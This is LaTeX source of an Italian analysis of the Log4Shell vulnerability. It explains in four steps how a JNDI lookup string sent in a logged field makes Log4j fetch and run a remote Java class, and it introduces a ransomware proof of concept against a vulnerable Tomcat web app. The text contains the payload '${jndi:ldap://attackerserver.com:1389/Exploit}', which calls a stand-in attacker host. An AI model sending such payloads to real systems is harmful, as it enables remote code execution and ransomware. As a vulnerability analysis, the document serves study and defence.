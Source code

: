 \documentclass[a4paper, 12pt]{article}
\begin{document}
\begin{enumerate}
    \item L'attaccante attraverso una richiesta attuata con qualsiasi portocollo (HTTP, TCP, \dots) invia al server target il payload malevolo con l'URL JNDI:
    \begin{center}
        \verb!${jndi:ldap://attackerserver.com:1389/Exploit}!
    \end{center}
    all'inerno di un campo testuale che verrà successivamente loggato dalla applicazione con Log4j. 
    
    \item Il logger parserizza il payload ed effettua una richiesta tramite JNDI al server \verb!attackerserver.com!, controllato dall'attaccante, alla ricerca dell'oggetto \verb!Exploit!.
    
    \item Il sever LDAP dell'attaccante risponde fornendo il path di un file Java compilato (\verb!http://attackerserver.com/Exploit.class!) contenuto in un secondo server malevolo remoto.
    
    \item A questo punto l'applicazione vulnerabile carica il file remoto \verb!Exploit.class!, instanziando l'oggetto Java ed eseguendo il codice del suo costruttore. Tale operazione consente all'attaccante di ottenere i privilegi di esecuzione di codice remoto sull'host.
\end{enumerate}


\newpage

\section{PoC: Attacco Ransomware tramite Log4Shell}
Per mostrare come Log4Shell possa condurre facilmente un avversario ad eseguire codice su una macchina target è stato realizzato un \emph{Proof of Concept} che illustra un tipico attacco ransomware effettuato per mezzo di questa vulnerabilità.

Tutto il codice realizzato è disponibile su GitHub all'indirizzo \href{https://github.com/CriDiba/log4shell-analysis}{https://github.com/ CriDiba/log4shell-analysis}, nel repository è presente un file che descrive come effettuare il setup della macchina ai fini del funzionamento del progetto.

\subsection{Macchina vittima}
La macchina vittima è costituita da una web-app vulnerabile eseguita su un server web Apache Tomcat in ascolto sull porta 8080.
L'applicazione web è stata sviluppata con la tecnologia JSP ed utilzza Java Servlet per l'elaborazione lato server.
\end{document}
